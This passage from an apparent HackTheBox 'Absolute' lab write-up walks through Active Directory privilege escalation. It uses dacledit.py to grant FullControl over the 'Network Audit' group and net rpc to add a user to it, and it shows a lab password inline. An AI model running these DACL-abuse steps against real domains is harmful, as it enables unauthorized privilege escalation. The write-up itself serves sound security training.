 - Run dacledit.py and change read for write:

```bash
./dacledit.py absolute.htb/m.lovegod:AbsoluteLDAP2022! -k -target-dn 'DC=absolute,DC=htb' -dc-ip 10.129.229.59 -action **write** -principal 'm.lovegod' -target 'Network Audit'

```

![image38](../resources/e544c430c50a499e92ad6adde73fe23d.png)

- Now when we read it, we can see that we have FullControl:

![image39](../resources/0ff4fcc4ff4942fca35772293a86f421.png)

- The ACL gets removed after a short amount of time

**<u>Step 2 - Add user to group - net rpc</u>**

Now that we have Full Control over the group Network Audit - We can add ourselves to the group

<https://www.thehacker.recipes/a-d/movement/dacl/addmember>


![image40](../resources/8e4082eeff1443b5a3b80345cf458c04.png)

- Using the net rpc command - we can add the user to the group:

```bash
net rpc group addmem "Network Audit" 'm.lovegod' -U 'absolute.htb/m.lovegod' --use-kerberos=required -S dc.absolute.htb --realm absolute.htb

```
But we get an error


![image41](../resources/96b3a087a86746f7b3bfcafda938d796.png)
